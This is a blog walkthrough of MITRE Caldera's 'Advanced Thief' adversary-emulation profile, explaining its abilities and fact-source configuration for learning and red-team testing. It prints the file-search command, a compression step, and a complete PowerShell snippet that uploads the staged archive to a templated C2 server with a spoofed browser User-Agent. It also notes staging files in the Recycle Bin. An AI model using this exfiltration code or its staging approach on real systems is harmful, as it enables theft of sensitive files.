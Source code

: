 ```yaml
---
title: Caldera Fact Sources by Theift
draft: false
authors:
  - admin
date: 2024-03-18
tags:
  - Caldera
  - Theif
  - Fact Sources 
  - Exfil
---
```


Were going to walk throught the Advanced Theif adversary and understand whats going on. We'll start first with Abilities, setup Fact Sources last and disect commands in the middle. 
This adversary is simple and has only a few abilities to configure setup.  

## Theif

This adversary searches for files, compress them and exfiltrate to the attackers server.  

## Abilities

### 1. Advanced File Search and Stager
- **Tactic**:                    Collection
- **Technique ID**:        [T1119](https://attack.mitre.org/techniques/T1119/)
- **Technique Name**: Automation Collection
- **Payload**: [file_search.ps1](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.ps1) [file_search.sh](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.sh)

The payload is really well written. Clean and easy to ready. Something you could use to learn PowerShell with. 

This script essentially searches the box for files of interest or a specific file. Then places them in a staging location. 

**Command**

```shell
.\file_search.ps1 -Extensions '#{windows.included.extensions}' -ExcludedExtensions '#{windows.excluded.extensions}'
 -Directories '#{windows.included.directories}' -ExcludedDirectories '#{windows.excluded.directories}'
 -AccessedCutoff #{file.last.accessed} -ModifiedCutoff #{file.last.modified}
 -SearchStrings '#{file.sensitive.content}' -StagingDirectory '#{windows.staging.location}'
 -SafeMode $#{safe.mode.enabled} -PseudoExtension #{pseudo.data.identifier}
```


- In the command its passing several fact sources to the payload. 
- the use of `-Extensions` sets file extensions and directories to include and exclude with `-Excluded Extenstions`.
- Its specifies what extensions and directories to exclude with `-Directories`, ` -ExcludedDirectories`. This is going to speed up the search on the box by narrowing the scope.
- The access cutoff will be in days. Its looking back 30 days for files a user has accessed or modified with `-AccessedCutoff`
- With `-SearchStings` the fact passes a list of key word to look for.
- It sets the staging directory with `-StagingDirectory`. The location where all the files will be dumped before compressing
- `-SafeMode` is an interesting switch paired with `-PseudoExtension`. In the payload you see `[bool] $SafeMode = $False,` and a fact source. This a Boolean with the default being False. Safemode is the switch to use  `-PseudoExtension`or not and represents the basename of the file.  So if set to True and you passed the file special.txt. That would be the only file return once the payload is efiltrated. Example being Report.pdf this would be `Report`.  If `-SafeMode` is set to True it will use `-PseudoExtension` and make sure the file matches this.


### 2. Compress Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- **Technique Name**: Archive Collected Data: Archive via Utility 

```shell
Compress-Archive -Path #{host.dir.staged} -DestinationPath #{host.dir.staged}.zip -Force;
sleep 1; ls #{host.dir.staged}.zip | foreach {$_.FullName} | select
```

- Compress-Archive takes the path of our the staging directory. That being the Recycle Bin. 
- Destination Path is where you're putting the files. Looks like its the same location. Its will create a .zip of the files.
- With `-Force` set it overrides any existing files with the same name
- In Caldera you can see the response of the command. So we see the `;` adding another command sleeping for 1 second. Followed by a ls -Piped-> into a foreach loop on the output of ls.  Unsure why this is needed.

### 3. Exfil Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1041](https://attack.mitre.org/techniques/T1041/)
- **Technique Name**: Exfiltration Over C2 Channel


Finally into the final stage of the adversary where the data is exfiltrated.  


```python
# Set variables
$ErrorActionPreference = 'Stop';
$fieldName = "#{host.dir.compress}";
$filePath = "#{host.dir.compress}";
$url = "#{server}/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");

$result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
```

This is what a http request looks like in powershell. They build the HTTP client set the file and adds a user agent. Lastly we package it up and ship it back.


- Right in the beginning we set variables and use the Fact Source details. 
- Next we call to .Net System.Net.Http library and load it. 
- Then the assembly of the client is performed and building of the request. Like setting the User-Agent and attaching the payload.


https://learn.microsoft.com/en-us/dotnet/api/system.net.http?view=net-8.0

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4


## Fact Sources

Now that we've covered the Abilities lets focus on Fact Sources. They are a little confusing at first. Fact Sources are just configuration settings for your Adversaries abilities. Abilities can tap into templating to set template variable from facts. 

Facts are a collection of key/values that are used to pass into an Operation. As the Operation executes it populates the templated text in a command or ability with the Fact Sources value. Like a the shapes box when we were younger. Its possible to run an Adversary in an Operation without the correct fact sources.

Continuing on, below are the Fact Sources needed with a description of what role they play in the Abilities.

| Fact Source                  | Description                                                                  |
| ---------------------------- | ---------------------------------------------------------------------------- |
| windows.included.extensions  | File extensions that should not be ignored                                   |
| windows.excluded.extensions  | File extensions to ignore                                                    |
| windows.included.directories | Base Directory to crawl                                                      |
| windows.excluded.directories | What directories are out of scope                                            |
| file.last.accessed           | Time Frame -30 Days                                                          |
| file.last.modified           | Time Frame -30 Days                                                          |
| file.sensitive.content       | Its a list of possible keywords used to identify sensitive content           |
| windows.staging.location     | Location to stage the compression. Its set to Recycle bin... kind of cleaver |
| pseudo.data.identifier       | specific file name                                                           |

### File Compression

| Fact Source     | Description                                      |
| --------------- | ------------------------------------------------ |
| host.dir.staged | Location the files will be stored and compressed |

### Exfil

| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |

### Prebuilt Fact Sources

The Fact Source entries form above are included in the **Exfil Operation** collection of facts. 
We are missing a few of the facts that are required. 

#### Missing Fact 
| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.staged   | Loation where the files where staged         | 
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |



